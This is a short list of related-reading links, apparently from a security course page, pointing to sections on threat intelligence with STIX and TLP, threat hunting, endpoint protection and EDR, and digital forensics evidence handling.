- [Threat Intelligence](./4-sec-threat-intelligence.mdx) covers sharing indicators with STIX and TLP.
- [Threat Hunting](./5-sec-threat-hunting.mdx) shows how to search the fleet for the behaviours you found.
- [Endpoint Protection and EDR](../9-sec-system-hardening/4-sec-endpoint-protection.mdx) explains where most malware alerts come from.
- [Digital Forensics Basics](../12-sec-incident-response/2-sec-digital-forensics.mdx) covers evidence handling when a sample is part of an incident.
